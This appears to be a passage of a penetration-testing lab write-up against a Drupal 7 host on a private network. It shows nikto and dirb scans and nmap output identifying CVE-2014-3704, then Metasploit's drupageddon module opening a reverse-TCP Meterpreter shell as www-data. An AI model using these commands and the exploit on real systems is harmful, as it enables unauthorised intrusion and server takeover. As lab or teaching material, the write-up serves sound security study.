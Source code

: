 Drupal Verion 7

`nikto -h 192.168.0.119`

`dirb http://192.168.0.119`


 
## Exploitation


Looking over the nmap scan we see that the Drupal version is vulnerable to the following exploit

{% highlight bash %}
|   VULNERABLE:
|   Drupal - pre Auth SQL Injection Vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-3704
|         The expandArguments function in the database abstraction API in
|         Drupal core 7.x before 7.32 does not properly construct prepared
|         statements, which allows remote attackers to conduct SQL injection
|         attacks via an array containing crafted keys.
|           
|     Disclosure date: 2014-10-15
|     References:
|       https://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html
|       http://www.securityfocus.com/bid/70595
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
|_      https://www.drupal.org/SA-CORE-2014-005
{% endhighlight %}


Metasploit was fired up and to use drupageddon exploit

{% highlight bash %}
multi/http/drupal_drupageddon

[*] Started reverse TCP handler on 192.168.0.83:4444 
[*] Sending stage (38247 bytes) to 192.168.0.119
[*] Meterpreter session 1 opened (192.168.0.83:4444 -> 192.168.0.119:59857) at 2019-05-09 13:04:08 +0100

meterpreter > getuid
Server username: www-data (33)
{% endhighlight %}
